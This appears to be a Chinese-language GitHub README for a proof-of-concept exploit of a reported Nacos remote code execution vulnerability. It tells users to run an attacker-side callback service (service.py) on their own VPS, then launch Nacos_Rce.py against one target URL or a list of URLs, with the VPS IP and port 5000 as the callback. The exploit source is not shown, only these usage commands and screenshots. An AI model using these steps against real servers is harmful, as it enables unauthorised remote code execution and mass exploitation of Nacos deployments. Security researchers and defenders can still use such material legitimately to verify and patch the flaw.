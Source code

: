# Nacos_Rce
网传nacos_rce漏洞poc



![image](https://github.com/user-attachments/assets/cf7e3ac3-bd47-462c-accc-4fc21b8a731f)


![image](https://github.com/user-attachments/assets/66c7cba3-489a-4bf4-876d-f2e375a82b44)

</br>

# 使用方法
---

### 1. 将config.py和service.py放在自己的vps上并运行

```python service.py```

![image](https://github.com/user-attachments/assets/e7e8b68c-7147-4ca3-a5bf-07b89620575f)

![image](https://github.com/user-attachments/assets/a3feb618-8255-4b4a-9b0a-ae575e7bceb9)


### 2. 单url验证
```python .\Nacos_Rce.py -t vps的ip地址 -p 5000 -u http://xxx.xxx.xxx```
![image](https://github.com/user-attachments/assets/17683bc9-5851-4222-9df7-6b71a8ddd591)



### 3. 多url验证
```python .\Nacos_Rce.py -t vps的ip地址 -p 5000 -f ./url.txt```
![image](https://github.com/user-attachments/assets/7eecdf9e-7c74-4115-afbc-5af9362f4db9)






